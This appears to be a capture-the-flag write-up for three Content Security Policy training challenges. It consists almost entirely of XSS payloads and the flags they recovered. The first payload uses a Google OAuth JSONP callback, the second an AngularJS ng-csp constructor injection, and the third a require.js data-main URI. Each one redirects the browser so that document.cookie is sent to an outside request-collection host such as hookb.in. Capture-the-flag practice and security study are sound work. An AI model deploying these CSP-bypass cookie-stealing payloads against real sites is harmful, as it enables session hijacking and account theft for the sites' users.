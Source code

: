# babycsp
> https://babycsp.training.ctf.necst.it/
```javascript
"><script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href='https://hookb.in/9XwRzarbRDS600eMoL7d?'%2bdocument.cookie;"></script>
```

**flag=flag{4re_yo0_s0_sure_csp_1s_useful?}**
# csp
> http://csp.training.ctf.necst.it/
```javascript
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script> <div ng-app ng-csp id=p ng-click={{constructor.constructor("window.location.href='https://requestbin.training.ctf.necst.it/1a2ro011?cookie='+document.cookie")()}}>
```

**flag=flag{th1s1s_how_w3_byp4ss3d_csp}**

# strict csp
> http://strict-csp.training.ctf.necst.it/
```javascript
<script data-main="data:1,window.location.href='https://requestbin.training.ctf.necst.it/x57dvjx5?cookie='+document.cookie" src='require.js'></script>
```
**flag{th4t-w4s3nt-s0-str1ct-w4snt-it?}**
